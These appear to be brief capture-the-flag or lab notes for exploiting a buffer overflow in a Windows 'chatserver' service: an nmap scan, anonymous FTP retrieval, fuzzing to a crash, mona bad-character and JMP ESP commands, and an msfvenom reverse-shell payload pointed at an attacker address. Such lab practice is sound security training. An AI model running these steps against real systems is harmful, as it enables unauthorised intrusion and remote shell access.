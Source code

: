 # BRAINSTORM
`nmap -sV  10.10.113.75`  
ftp as anonymous
binary mode
mget FILE

##

* 3 services are running 
- FTP
- custom service at 9999

* FTP 
- run in binary mode
- download chatserver and dll file

* run fuzzer.py
* crashed at 2100 bytes  
`!mona config -set workingfolder c:\mona\%p`  
`!mona bytearray -b "\x00"`  
`!mona compare -f C:\mona\chatserver\bytearray.bin -a 00fceea8`  
`!mona jmp -r esp -cpb "\x00"`  
`msfvenom -p windows/shell_reverse_tcp LHOST="10.10.172.192" LPORT=4444 EXITFUNC=thread -b "\x00" -f c`  

